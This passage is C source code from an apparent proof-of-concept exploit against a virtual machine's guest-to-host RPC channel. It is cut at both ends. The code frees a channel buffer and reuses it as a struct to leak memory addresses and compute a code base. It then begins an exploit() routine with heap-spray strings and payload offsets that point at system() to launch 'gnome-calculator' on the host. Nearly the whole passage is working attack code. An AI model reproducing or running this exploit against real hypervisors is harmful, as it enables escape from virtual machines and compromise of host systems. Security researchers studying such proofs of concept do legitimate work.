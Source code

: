 ```c
    printf("recv len:%d\n",len);

    //free the output buffer
    printf("Free the buffer again...\n");
    getchar();
    channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }

    printf("Trying to reuse the buffer as a struct, which we can leak..\n");
    getchar();
    run_cmd(s5);
    printf("Should be done.Check the buffer\n");
    getchar();

    //Now the output buffer of chan[1] is used as a struct, which contains many addresses
    channel_recv_reply_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }

    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,i,data,&res);
    }
    printf("recv data:\n");
    for(i=0;i<len;i+=8){
        printf("recv data:%lx\n",*(long long *)&data[i]);
    }
    text = (*(uint64_t *)data)-0xf818d0;

    printf("Leak Success\n");
}

void exploit(){
    //the exploit step is almost the same as the leak ones
    struct channel chan[10];
    int res=0;
    int len,i;
    char *data;
    char *s1 = "info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s2 = "info-get guestinfo.b";
    char *s3 = "1 BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s4 = "gnome-calculator\x00";
    uint64_t pay1 =text+0xFE95B8; 
    uint64_t pay2 =text+0xECFD0; //system
    uint64_t pay3 =text+0xFE95C8;
    char *pay4 = "gnome-calculator\x00";
    run_cmd(s1);
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
```